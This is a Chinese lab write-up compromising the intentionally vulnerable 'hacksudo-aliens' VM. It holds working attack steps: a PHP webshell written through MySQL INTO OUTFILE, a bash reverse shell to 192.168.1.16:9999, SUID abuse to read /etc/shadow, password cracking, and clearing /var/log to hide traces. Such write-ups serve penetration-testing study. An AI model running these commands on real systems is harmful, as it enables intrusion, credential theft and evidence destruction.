# 前言

靶机：`hacksudo-aliens`

攻击：`kali`

都是采用虚拟机的形式，网卡桥接模式

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.1.1/24`进行探索



# 信息收集

## 使用nmap扫描



两个`http`服务，一个`ssh`服务

## 网站信息

### 访问查看

访问80端口



查看页面源代码，可以发现一个作者的人名`vishal waghmare`



访问9000端口，发现是`phpmyadmin`的管理界面，也就是数据库的一种管理工具



### 目录扫描

可能是目录型，尝试进行目录扫描

使用`dirsearch、gobuster、ffuf、dirb、dirbuster`等工具



使用`dirsearch`扫描，多出一个`README.md`文件，访问，应该是模板



访问`backup`，发现数据库的备份文件



点击下载后进行查看，这个信息可能有用，等会测试



打开图片目录，有一张图片，不只有无用处，先记住


尝试扫描`9000`端口，发现挺多



不过这里先看一个，记住其版本



# 漏洞寻找

在`80`端口的信息，基本上指向的是`9000`端口，所以这里以获取的用户名和密码进行登录测试

用户名`vishal`，密码`hcaksudo`



点击用户账户，可以看到当前用户的一些相关设置



虽说`vishal`的权限与其他差不多，但是还是需要收集，因为这里的`hacksudo`数据库中，没有任何数据，可能对该用户没有放开。查看其他用户的密码



这里发现`root`的密码与`vishal`一样，但是登录`root`发现，数据库中依然没有数据

解密其他用户密码，不过这里学到了这种类型的密码，是`mysql5`类型



以`hacksudo`和`shovon`用户登录还是没有数据，不过收集到几个连接到数据库的用户名和密码

|    用户名    |    密码    |
| :----------: | :--------: |
|   `vishal`   | `hacksudo` |
|    `root`    | `hacksudo` |
|  `hacksudo`  |   `123`    |
|   `shovon`   |   `123`    |
| `phpmyadmin` |   `root`   |

尝试把上面的数据写入一个`word.txt`中，然后使用`hydra`尝试爆破`ssh`，并没有发现任何东西



尝试使用`searchsploit`搜索有无漏洞可复现，发现并无对应的版本

把之前的图片下载尝试从图片获取，也是没有信息，这时候看了一下网上的`wp`，因为实在不知道还有什么。

看了之后发现，80端口压根没有加载完整，我真的服了，可能是因为在虚拟机环境的原因，加载不动，我这里在物理机的浏览器访问



但是这里物理机访问也是很慢，估计资源加载的应该很多，猜测可能存在大量的`js`或其他的资源加载，所以目录扫描重新设置




发现之前漏扫的类型，说实话，真的吃资源，我这一个靶机，加载这一个界面，磁盘占用soso的快

不过访问后还是不能有其他操作，啧，突然想到之前在`phpmyadmin`中看到有几个用户是具有写权限的



并且在`backup`下载的`mysql.bak`中是有目录泄露的，之前截图未截取，这属于后半段的内容



# 漏洞利用

这里可以尝试通过`mysql`命令写入`shell`到指定位置，不过，有的方式需要条件

这里查看`mysql`数据库版本



可以使用`outfile`

```mysql
select "<?php system($_REQUEST['cmd']);?>" into outfile "/var/backups/mysql/shell.php"
```

或者这里直接php一句话木马也可以，然后直接使用蚁🗡进行连接即可

不过测试，发现上面的路径没有权限写入，那么换路径，比如默认的`apache2`网页界面`/var/www/html`

```mysql
select "<?php system($_REQUEST['cmd']);?>" into outfile "/var/www/html/shell.php"
```




使用浏览器访问进行测试



查看有无`nc`命令



构造`bash`反弹

```shell
bash -c 'bash -i >& /dev/tcp/192.168.1.16/9999 0>&1'
进行url编码后
bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.1.16%2f9999+0%3e%261%27%0a
```

首先在`kali`中开启`nc`监听9999端口，然后浏览器执行




# 提取

使用`find`寻找具有SUID的文件



刚开始发现有`sudo`，但是当前用户，无法使用，再看有`date`，之前没碰到，查看帮助文档



可以查看文件一次，并且还是具有`SUID`的。这么看可能不清晰，访问一个网站查看`gtfobins.github.io`



查看`/etc/shadow`文件



后面还有`hacksudo`的，太长，就没截图

那么就可以把相关的有密码的复制到`kali`的一个文件中，然后查看`/etc/passwd`，把相关的复制到`kaili`的另一个文件中，然后使用`unshadow`整合到一起，使用`john`进行破解



这里先爆出，就先登录测试




寻找具有SUID的文件，虽然有sudo，但是还是无法使用



查看第一个，发现该文件是可执行文件



直接在网站搜索，看有无可用`gtfobins.github.io`



执行命令，注意，是执行当前目录下的这个命令




# 痕迹清理

清空`/var/log`中的一些日志


删除`/var/www/html/shell.php`脚本



# 总结

1. 主要在于信息收集，然后进行登录`phpmyadmin`后，如何进行一个反弹`shell`
2. 对于`mysql`写入`shell`的几种方式，放在下面
3. 对于一些具有SUID命令该如何使用，才使得可以提升权限
4. 这两次的权限提升，都是具有SUID，主要是如何利用


mysql语句写入`webshell`的几种方式

以下涉及的位置，都需要绝对路径，并且有权限

- 新建`select`方式

```mysql
select 【shell】 into outfile 【位置】
```

mysql 5.6.34版本以后 `secure_file_priv`的值默认为NULL，限制无法导入和导出文件


- 表插入

```mysql
insert into 表名('元组名') valuse (【shell】)
```

不过还是需要通过上面的导出方式，把数据放入指定的文件中


- 日志写入

```mysql
show variables like '%general%';
```


需要全局日志开启`general_log`，并且，需要指定一个`php`文件

这时候指向语句，会把没执行的语句记录到日志

```mysql
select 【shell语句】
```


